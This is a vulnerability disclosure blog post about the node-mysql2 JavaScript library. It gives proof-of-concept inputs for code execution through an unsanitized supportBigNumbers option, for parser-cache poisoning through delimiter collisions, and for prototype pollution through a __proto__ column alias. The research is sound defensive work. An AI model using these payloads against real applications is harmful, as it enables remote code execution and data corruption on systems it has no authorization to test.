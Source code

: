 +++
title = 'MySQL2: Dangers of User-Defined Database Connections'
date = 2024-03-26T00:00:00+03:00
draft = false
+++

> The article is informative and intended for security specialists conducting testing within the scope of a contract. The author is not responsible for any damage caused by the application of the provided information. The distribution of malicious programs, disruption of system operation, and violation of the confidentiality of correspondence are pursued by law.

# Introduction
The node-mysql2 library is one of the most popular libraries for connecting to a database in JavaScript, with over 2 million installations per week.

At the end of last year, I encountered an automation system that utilized the node-mysql2 library to connect to user databases and execute queries controlled by them.
In this article, I want to discuss the issues it causes and provide you with their solutions.

# Basics
In the application I was researching, the user could establish a connection to their database and execute queries with it:

```
// Simplified example
const mysql = require('mysql2');
...
const connection = mysql.createConnection({
    host: userdata.host,
    user: userdata.user,
    database: userdata.db,
    password: userdata.password,
});
...
connection.query(userdata.query,reponseFunction)
);
```

Obviously, in this case, we cannot talk about standard SQL-related attack vectors since the connection belongs to us. Therefore, we should consider issues related to affecting other users data or server performance.

# RCE
As you might guess, I was able to find a way to execute arbitary code in such a configuration, but how is this possible?

First, let's understand how the library works. In most cases, the first argument passed to the connection.query function is a string containing the query:
```
connection.query("SELECT 1;",reponseFunction)
```

But actually, the first argument can also be an object, where in addition to the query itself, we can pass parameters for its processing:
```
connection.query({sql:"SELECT 1;", ... },reponseFunction)
```

After that, the passed configuration parameters will be used by the response parsing [function](https://github.com/sidorares/node-mysql2/blob/1609b5393516d72a4ae47196837317fbe75e0c13/lib/parsers/text_parser.js#L14C10-L14C21).

If you look closely, you will notice that this function involves code generation. MySQL2 generates a parsing function for each query, which is then cached for optimization purposes. This is important for understanding this article.

I noticed that in most cases, it successfully sanitizes the data that enters the generated code. However, there is also a line:
```
      return `packet.parseLengthCodedInt(${supportBigNumbers})`;
```

The parameter supportBigNumbers is a number in a legitimate case, so it is not sanitized. However, are there any checks for this?

A quick look at the code revealed that such checks are absent. This piece of code will be executed if the executed query returns a BIGNUMBER, so to achieve RCE, it is sufficient to pass the following object as the first argument:
```
 {sql:`SELECT INDEX_LENGTH FROM information_schema.tables LIMIT 1`, supportBigNumbers:"console.log(1337)"}
```

As a result, you will see 1337 in the console after executing this database query.

**!!! It's also important to understand that an object with a global prototype is used as a map. Therefore, you can use this as Prototype Pollution to achieve RCE. If the targeted application uses mysql2 and you achieve PP, you can also gain RCE.**

# Cache Poisoning
The next vulnerability becomes accessible even in stricter application configurations. Its exploitation is possible even if the first argument query is checked to ensure it is a string.
As I mentioned earlier, the library utilizes caching of generated response functions. Let's take a look at how it was [implemented](https://github.com/sidorares/node-mysql2/blob/fd3d117da82cc5c5fa5a3701d7b33ca77691bc61/lib/parsers/parser_cache.js#L9):
```
function keyFromFields(type, fields, options, config) {
  let res =
    `${type}` +
    `/${typeof options.nestTables}` +
    `/${options.nestTables}` +
    `/${options.rowsAsArray}` +
    `/${options.supportBigNumbers || config.supportBigNumbers}` +
    `/${options.bigNumberStrings || config.bigNumberStrings}` +
    `/${typeof options.typeCast}` +
    `/${options.timezone || config.timezone}` +
    `/${options.decimalNumbers}` +
    `/${options.dateStrings}`;
  for (let i = 0; i < fields.length; ++i) {
    const field = fields[i];
    res += `/${field.name}:${field.columnType}:${field.length}:${field.schema}:${field.table}:${field.flags}:${field.characterSet}`;
  }
  return res;
}
```

As you can see, keys are inserted into the string, and ":" is used as a delimiter. This is a poor implementation because the values passed into the key can also contain ":". By exploiting this characteristic, one can manipulate the hashed function:
```
  connection.query(
    'SELECT information_schema.tables.TABLE_NAME,`tables:160:63/DATA_LENGTH:8:undefined::tables`.TABLE_ROWS FROM information_schema.tables INNER JOIN information_schema.tables AS `tables:160:63/DATA_LENGTH:8:undefined::tables` ON `tables:160:63/DATA_LENGTH:8:undefined::tables`.TABLE_ROWS!=information_schema.tables.TABLE_ROWS LIMIT 1;',
    function(err, results, fields) {
    }
  );
  // Send another request and spwan new connection
  connection1.query(
    `SELECT TABLE_NAME, TABLE_ROWS, DATA_LENGTH FROM information_schema.tables LIMIT 1;`,
    function(err, results, fields) {
      console.log(results);
      console.log(fields);
    }
  );
```
You will see output:
```
[ { TABLE_NAME: 'ADMINISTRABLE_ROLE_AUTHORIZATIONS', TABLE_ROWS: 0 } ]
[
  `TABLE_NAME` VARCHAR(64) NOT NULL,
  `TABLE_ROWS` BIGINT(21) UNSIGNED,
  `DATA_LENGTH` BIGINT(21) UNSIGNED
]
```

As evident, the fields of the second request include DATA_LENGTH, which, however, is absent in the results. This discrepancy arises because the first request stores in the cache a key `text/undefined/undefined/false/false/false/boolean/local/false/false/TABLE_NAME:253:undefined:information_schema:tables:20609:224/TABLE_ROWS:8:undefined::tables:160:63/DATA_LENGTH:8:undefined::tables:160:63` with an incorrect packet parser.

This can be used to disrupt the logic of the application, sending data types that are not expected.

Fixed in latest release.

# Prototype Poisoning / Pollution
Returning to the process of generating the function that parses the returned response, it can be observed that an object with a global prototype is used as the user-supplied [value](https://github.com/sidorares/node-mysql2/blob/fd3d117da82cc5c5fa5a3701d7b33ca77691bc61/lib/parsers/text_parser.js#L134):
```
parserFn("const result = {};");
```

Therefore, if you pass the following query:

```
SELECT CAST('{"toString": {"toString":true}, "tags": {"a": 1, "b": null}}' as JSON) AS __proto__;
```

You will notice that the response prototype has changed
```
Object.getPrototypeOf(results[0])
> { tags: { a: 1, b: null }, toString: { toString: true } }
```
his only controls a specific prototype, not the global one. However, if we have the ability to control the configuration, we can simply pass `nestTables: true`:
```
    } else if (options.nestTables === true) {
        lvalue = `result[${helpers.srcEscape(fields[i].table)}][${fieldName}]`;
    }
```
As many might understand, this will give us full prototype pollution.

# Conclusion 
I informed the vendor about these issues 90 days ago and my intentions to publish this material on March 26th. Unfortunately, the vendor did not provide the necessary cooperation, ignoring my emails for months, so this material was released without the final fixes.
Today, a [fix](https://github.com/sidorares/node-mysql2/releases/tag/v3.9.3) was released that addresses the cache manipulation issue. However, the remaining problems remain relevant in the latest version.
If you are using the library in the described scenarios, I strongly advise you to limit the connection parameters and the parameters passed in the query.